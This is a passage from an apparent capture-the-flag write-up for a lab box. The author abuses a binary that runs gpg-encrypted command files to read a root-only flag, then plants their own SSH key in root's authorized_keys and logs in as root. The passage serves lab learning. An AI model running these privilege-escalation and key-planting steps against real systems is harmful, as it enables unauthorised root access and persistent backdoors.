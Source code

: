 Cool, so let's do that?

<pre>echo "cat /root/root.txt" > command
gpg -c command
/usr/local/bin/execute-crypted command.gpg</pre>

And we got root flag. Pretty easy. However, I'm not satisfied as I am not root. Since ssh is open maybe we can add our own key for root? Generate a key:

<pre>ssh-keygen
f3dai
cat f3dai.pub</pre>

Now we want to add this to /root/.ssh. Assuming .ssh isn't there, we can create the directory and echo our key into a file called authorized_keys:

<pre>echo &quot;mkdir /root/.ssh &amp;&amp; echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQ  [SNIPPED]  ls4mfC2Xb1bufCM= user@parrot &gt; /root/.ssh/authorized_keys&quot; &gt; command
gpg -c command
/usr/local/bin/execute-crypted command.gpg</pre>

Our key should be in root's ssh key file so connect by ssh:

<pre>ssh -i f3dai root@hard.thm</pre>

We are root:

![root](https://imgur.com/p86co9D.png)




